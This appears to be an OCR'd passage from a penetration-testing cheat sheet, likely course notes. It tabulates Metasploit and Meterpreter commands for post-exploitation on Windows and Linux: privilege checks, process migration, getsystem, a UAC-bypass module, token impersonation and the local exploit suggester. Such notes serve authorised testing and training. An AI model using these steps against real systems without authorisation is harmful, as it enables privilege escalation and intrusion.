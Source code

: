 | Privileges                                                   |                                                              |
| search post/windows                                          |                                                              |
| search post/windows/gather                                   |                                                              |
| search post/windows/migrate                                  |                                                              |
| search exploit/windows/local                                 |                                                              |
| search post/multi/gather                                     |                                                              |
|                                                              |                                                              |
| getprivs                                                     |                                                              |
| run  post/windows/gather/win_privs                           | Post module about current access privs                       |
| run  post/windows/manage/migrate                             | To let Metasploit automatically migrate to another process   |
| migrate <pid>                                                |                                                              |
| sudo -l                                                      |                                                              |
|                                                              |                                                              |
| getsystem (only windows without  UAC disabled) -> rev2self to get back to original |                                                              |
| search bypassuac                                             |                                                              |
| /post/windows/gather/win_privs  to see if UAC is enabled     |                                                              |
| list_tokens or  impersonate_token els\\els                   |                                                              |
|                                                              |                                                              |
| meterpreter > background                                     |                                                              |
| use  exploit/windows/local/bypassuac                         | PrivEsc to use if your meterpreter session process is in the  admin group but is not an admin. After setting options go back to meterpreter  and getsystem |
| run getsystem again ->  getuid to check                      |                                                              |
|                                                              |                                                              |
| use incognito                                                | Ability to impersonate users/admins and then map network  shares as them, see lab 9 (NetBios) |
|                                                              |                                                              |
| use  post/multi/recon/local_exploit_suggester                |                                                              |
|                                                              |                                                              |
| Windows                                                      |                                                              |
| use exploit/windows/local                                    |                                                              |
| exploit/windows/local/service_permissions                    |                                                              |
| run post/windows                                             |                                                              |
|                                                              |                                                              |
| Linux                                                        |                                                              |
| run post/linux                                               |                                                              |
|                                                              |                                                              |
| Shell and search                                             |                                                              |
| shell , exit                                                 | start the local shell; windows and linux                     |
| Search for a file                                            |                                                              |